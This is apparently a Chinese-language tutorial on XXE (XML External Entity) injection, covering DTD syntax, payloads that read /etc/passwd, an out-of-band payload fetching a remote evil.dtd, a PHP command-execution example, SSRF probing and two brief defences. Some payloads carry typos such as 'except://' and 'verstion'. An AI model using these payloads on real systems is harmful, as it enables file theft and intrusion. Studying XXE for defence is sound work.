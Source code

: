 # XXE 

XXE（XML External Entity injection）

XML外部实体注入漏洞，如果XML文件在引用外部实体时候，可以沟通构造恶意内容，可以导致读取任意文件，命令执行和对内网的攻击，这就是XXE漏洞。

>XML
> 
>XML用于标记电子文件使其具有结构性的标记语言，可以用来标记数据、定义数据类型，
> 
>是一种允许用户对自己的标记语言进行定义的源语言。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。

DTD

其中文档类型定义（DTD）是XXE漏洞的重点利用对象，DTD用来为XML文档定义语义约束。可以嵌入在XML文档中（内部声明），也可以独立的放在一个文件中（外部引用）。

DTD中一些重要的关键字包括：
- DOCTYPE（DTD的声明） 
- ENTITY（实体的声明） 
- SYSTEM、PUBLIC（外部资源申请）

>内部声明

```
<!DOCTYPE 根元素 [元素声明]>
```

>外部声明
```
<!DOCTYPE 根元素 SYSTEM "文件名">
```

外部引用可支持http、file等协议，不同的语言支持的协议不同，但存在一些通用的协议。例如

![](https://s21.ax1x.com/2024/04/25/pkPSDXQ.png)

>实际利用

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
 
<user><username>&xxe;</username><password>root</password></user>
```

## XXE漏洞

XXE漏洞就是XML外部实体注入。当允许引用外部实体时，通过构造恶意内容，可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害。

### XXE的危害1：任意文件读取

利用file、http协议，在DTD外部引用中注入，从而获取文件内容。任意文件读取有分为有回显和无回显两种。

#### 有回显

可以直接在DTD中读取文件内容，攻击者通过列目录、读文件，获取帐号密码后进一步攻击。

![](https://s21.ax1x.com/2024/04/25/pkPSfpT.png)

#### 无回显

如果没有回显的话可以把数据发送到远程服务器。

```
<?xml verstion="1.0" encoding="utf-8"?>
<!DOCTYPE a[
                <!ENTITY % f SYSTEM "http://www.m03.com/evil.dtd">
                 %f;
]>
<a>&b;</a>
$data = simplexml_load_string($xml);
print_r($data);
```

远程服务器的evil.dtd文件内容：

```
<!ENTITY b SYSTEM "file:///etc/passwd">
```

### XXE危害2：命令执行

php环境下，xml命令执行要求php装有expect扩展。而该扩展默认没有安装。

```
<?php
$xml = <<<EOF
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "except://ls">
]>
<x>&f;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
```

### XXE危害3：内网探测/SSRF

由于xml实体注入攻击可以利用http://协议，也就是可以发起http请求。可以利用该请求去探查内网，进行SSRF攻击。

![](https://s21.ax1x.com/2024/04/25/pkPSqtx.png)

![](https://s21.ax1x.com/2024/04/25/pkPSLh6.png)

### XXE危害4：攻击内网网站

## XXE防御方法

1. 禁止使用DTD的外部声明
2. 对用户提交过来的XML数据进行过滤

